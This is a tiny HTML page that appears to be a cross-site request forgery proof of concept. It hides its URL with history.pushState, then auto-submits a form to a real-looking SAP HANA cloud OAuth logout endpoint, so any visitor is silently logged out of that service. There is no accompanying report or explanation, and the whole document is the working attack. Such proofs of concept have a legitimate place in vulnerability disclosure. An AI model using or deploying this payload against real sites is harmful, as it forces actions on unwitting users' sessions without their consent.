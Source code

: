 <html><body><script>history.pushState('', '', '/')</script><form action="https://oauthasservices-a6199fbbc.hana.ondemand.com/oauth2/logout.jsp"><input type="submit" value="Submit request" /></form><script>document.forms[0].submit();</script></body></html>



